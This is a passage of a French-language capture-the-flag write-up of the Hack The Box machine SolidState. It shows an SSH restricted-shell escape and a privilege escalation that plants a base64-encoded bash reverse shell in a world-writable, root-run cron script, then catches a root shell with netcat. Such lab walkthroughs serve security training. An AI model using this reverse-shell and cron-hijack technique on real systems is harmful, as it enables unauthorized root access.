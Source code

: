 ```bash
user.txt
cd ..
ls
james
mindy

----------------------

$ ssh mindy@10.10.10.51 -t "bash --noprofile"
mindy@10.10.10.51's password: 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ls
bin  user.txt
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cd ..
${debian_chroot:+($debian_chroot)}mindy@solidstate:/home$ ls
james  mindy
${debian_chroot:+($debian_chroot)}mindy@solidstate:/home$ exit
Connection to 10.10.10.51 closed.
```

### root file : /opt/tmp.py
A l'aide **linpeas** et/ou **linenum**, on découvre un fichier /opt/tmp.py qui semble vider le dossier /tmp en utilisant os.system(). Les droits du fichier sont 777 (rwxrwxrwx). Le fichier appartient à root mais est modifiable par n'importe qui, dont **mindy**. J'ai donc essayer de mettre une commande pour faire un reverse shell. Au vu de ce que fait ce script, on peut déduire qu'il doit etre executé dans une cronjob probablement en tant que root.

Après quelques minutes, je reçois bien un shell en tant que root sur la machine, ce qui prouve notre théorie :
```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py 
##!/usr/bin/env python
import os
import sys

## Reverse shell
os.system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44LzkwMDEgMD4mMQ== | base64 -d | bash')

## Code initial du script
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()


--------------------------------------------

$ nc -lnvp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.51.
Ncat: Connection from 10.10.10.51:58410.
bash: cannot set terminal process group (31712): Inappropriate ioctl for device
bash: no job control in this shell
root@solidstate:~# whoami
whoami
root
root@solidstate:~# cat /root/root.txt
cat /root/root.txt
0574.....d2b9
```
